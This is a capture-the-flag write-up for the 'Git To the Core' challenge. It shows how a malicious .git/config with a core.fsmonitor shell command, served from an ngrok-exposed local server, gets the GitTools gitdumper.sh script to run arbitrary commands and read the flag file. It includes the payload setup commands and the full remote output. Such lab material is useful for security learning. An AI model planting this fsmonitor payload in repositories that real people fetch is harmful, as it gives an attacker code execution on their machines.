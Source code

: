 # Git To the Core
```
Cloning git repositories from web servers might be risky. Can you show me why?

With <3 from @gehaxelt
nc 52.59.124.14 10001 
```

Connecting with netcat and entering a sample URL gives us the following output:
```
└─$ nc 52.59.124.14 10001 
Challenge was created with <3 by @gehaxelt.
Let's dump a .git/ repository from a web server of your choice. Please provide an URL: http://google.com
Running command:  /opt/GitTools/Dumper/gitdumper.sh http://google.com ./repo
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[-] /.git/ missing in url


Failed to clone the repository!
```

The script's source code can be found [here](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh) and there's only 2 possible vulnerabilities I could find due to everything else checking for correctly formatted hashes:
- We're able to control the --git-dir argument (by having it in a query string like `? --git-dir [path] [stuff to match the ends with git-dir condition]`, though this requires a custom web server serve files correctly based on contents of query string if we want to use this) and thus we can choose in which directory we will write the git files
- We're able to control `.git/config`, allowing us to set `core.fsmonitor` to any shell command. Conveniently, after dumping the .git directory the script will run `git checkout .` triggering the `core.fsmonitor` command. The vulnerability of this challenge seems now pretty clear.

We can setup a local web server with `ngrok` and python's http.server module:
```
└─$ ngrok --scheme http http 80
└─$ python3 -m http.server 80
```

Setup the actual payload:
```
└─$ git init
└─$ touch a
└─$ git add .
└─$ git commit -m "hello world"
└─$ cat <<EOL > .git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
        fsmonitor = "echo \"\$(ls /)\">&2;false"
EOL
```

And then execute it on the remote:
```
└─$ nc 52.59.124.14 10001 
Challenge was created with <3 by @gehaxelt.
Let's dump a .git/ repository from a web server of your choice. Please provide an URL: http://9f52c69a5d6f.eu.ngrok.io/.git/
Running command:  /opt/GitTools/Dumper/gitdumper.sh http://9f52c69a5d6f.eu.ngrok.io/.git/ ./repo
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating ./repo/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/72/c649d6545980d04539e40356cc4856581ffbbe
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/49/6d6428b9cf92981dc9495211e6e1120fb6f2ba
[+] Downloaded: objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391


Running git checkout:  git checkout .

FLAG
app
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
FLAG
app
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
warning: unable to access '/root/.config/git/attributes': Permission denied
Updated 1 path from the index

└─$ cat <<EOL > .git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
        fsmonitor = "echo \"\$(cat /FLAG)\">&2;false"
EOL

└─$ nc 52.59.124.14 10001
Challenge was created with <3 by @gehaxelt.
Let's dump a .git/ repository from a web server of your choice. Please provide an URL: http://9f52c69a5d6f.eu.ngrok.io/.git/
Running command:  /opt/GitTools/Dumper/gitdumper.sh http://9f52c69a5d6f.eu.ngrok.io/.git/ ./repo
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating ./repo/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/72/c649d6545980d04539e40356cc4856581ffbbe
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/49/6d6428b9cf92981dc9495211e6e1120fb6f2ba
[+] Downloaded: objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391


Running git checkout:  git checkout .

ENO{G1T_1S_FUn_T0_H4cK}
ENO{G1T_1S_FUn_T0_H4cK}
warning: unable to access '/root/.config/git/attributes': Permission denied
Updated 1 path from the index
```

Flag: `ENO{G1T_1S_FUn_T0_H4cK}`